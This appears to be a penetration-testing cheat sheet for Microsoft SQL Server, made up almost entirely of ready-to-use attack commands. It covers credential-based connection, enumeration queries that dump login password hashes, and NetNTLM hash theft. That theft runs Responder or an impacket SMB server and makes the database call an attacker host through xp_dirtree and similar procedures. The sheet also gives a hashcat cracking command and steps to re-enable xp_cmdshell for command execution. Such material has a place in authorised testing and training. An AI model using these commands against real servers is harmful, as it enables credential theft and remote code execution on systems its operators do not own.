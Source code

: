 # MSSQL

# Connection
```sh
# mssqlclient
impacket-mssqlclient <domain>/<username>:<password>@<ip>

# sqlcmd
sqlcmd -S <IP> -U <username> -P <password> -d <database_name> -Q <query>
```

# Enumeration
```sql
-- Get version
SELECT @@version;

-- Get username
SELECT user_name();

-- Get databases
SELECT name FROM master.dbo.sysdatabases;
SELECT * FROM information_schema.schemata;

-- Tables from DB
SELECT * FROM information_schema.tables;

-- Columns from table
SELECT * FROM information_schema.columns;

-- List users
SELECT sp.name AS LOGIN, sp.type_desc AS LOGIN_TYPE, sl.password_hash, sp.create_date, sp.modify_date, CASE WHEN sp.is_disabled = 1 THEN "Disabled" ELSE "Enabled" END AS STATUS FROM sys.server_principals sp LEFT JOIN sys.sql_logins sl ON sp.principal_id = sl.principal_id WHERE sp.type NOT IN ("G", "R") ORDER BY sp.name;

-- Users and roles
SELECT * FROM sys.database_principals;
```

# Steal NetNTLM Hash
When executing a command on the SQL server which requests resources from the attacker's SMB server, the hash will be captured on that server.
1. Start an **SMB server** to capture hash upon request *(local)*.
    ```sh
    # Responder.py
    sudo python3 Responder.py -I tun0

    # impacket-smbserver
    sudo impacket-smbserver share ./ -smb2support
    ```
2. Run one of the following commands *(remote)*.
    ```sql
    xp_dirtree "\\<IP>\any\thing\"
    exec master.dbo.xp_dirtree "\\<IP>\anything\"
    EXEC master..xp_subdirs "\\<IP>\anything\"
    EXEC master..xp_fileexist "\\<IP>\anything\"
    ```
## Cracking the hash
```sh
hashcat -m 5600 <hash_file> <wordlist>
```

# Command Execution
1. If needed reactivate `xp_cmdshell`
    ```sql
    EXEC sp_configure 'show advanced options',1;
    RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell',1;
    RECONFIGURE;
    ```
2. Execute command
    ```sql
    EXEC xp_cmdshell 'ping 127.0.0.1';
    ```

# References
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)